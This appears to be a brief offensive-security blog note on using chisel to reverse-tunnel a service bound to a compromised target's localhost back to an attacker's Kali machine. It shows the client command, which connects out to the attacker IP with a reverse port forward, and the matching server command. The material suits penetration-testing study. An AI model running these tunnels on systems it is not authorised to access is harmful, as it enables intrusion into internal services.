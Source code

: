 ```yaml
---
layout: post
title: Chisel Localhost
titledate: 10/17/23
tags: ["infosec","offsec","chisel", "tunnel","http"]
---
```


#### tunneling localhost

if we have access to a target system and we recognize that the target has a local server running, perhaps a development web server, we can use chisel to tunnel that back to our attacking machine

we copy all chisel versions to the client 

    ./chisel client 192.168.45.183:9999 R:8090:127.0.0.1:8000
    
on the target i execute the client to port 9999 which is the server on the kali machine

i bind the localhost:8000 to 8090... not the target ip bc the target has an internal server bound to 127.0.0.1

then on the attacker - we bind the target localhost:8000 to my kali 8090

    chisel server -p 9999 --reverse
